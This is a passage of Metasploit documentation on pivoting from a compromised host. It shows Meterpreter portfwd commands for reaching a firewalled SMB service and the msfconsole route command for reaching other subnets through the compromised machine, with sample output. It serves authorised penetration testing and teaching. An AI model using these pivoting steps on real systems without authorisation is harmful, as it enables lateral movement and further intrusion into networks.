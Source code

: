 **Example 2: Using exploit/multi/script/web_delivery**

Another way to migrate to a native Meterpreter is by using the exploit/multi/script/web_delivery
module. To learn how, please read the module documentation for that module.

## Routing through the portfwd command

The portfwd command allows you to talk to a remote service like it's local. For example, if you
cannot talk to the SMB service remotely on the compromised host because it is firewalled, then
you can use portfwd to establish that tunnel:

```
meterpreter > portfwd add -l 445 -p 445 -r 192.168.1.220 
[*] Local TCP relay created: :445 <-> 192.168.1.220:445
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local        Remote             Direction
   -----  -----        ------             ---------
   1      0.0.0.0:445  192.168.1.220:445  Forward
```

And then talk to it like it's a local service:

```
msf auxiliary(smb_version) > run

[*] 127.0.0.1:445         - Host is running Windows 7 Ultimate SP1 (build:7601)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Routing through msfconsole

The route command from the msf prompt can also be used to bypass firewall like portfwd, but it also
allows you to connect to hosts on a different network through the compromised machine.

To do that, first off, look at the ifconfig/ipconfig output and determine your pivot point:

```
meterpreter > ipconfig
```

Make sure you know the subnet, netmask, and the Meterpreter/session ID. Back to the msf prompt,
and establish that route:

```
msf > route add 192.168.1.0 255.255.255.0 1
```

At that point, you should have a working pivot. You can use other Metasploit modules to explore
or exploit more hosts on the network, or use auxiliary/server/socks4a and [Proxychains](http://proxychains.sourceforge.net/) to allow
other third-party tools to do the same.
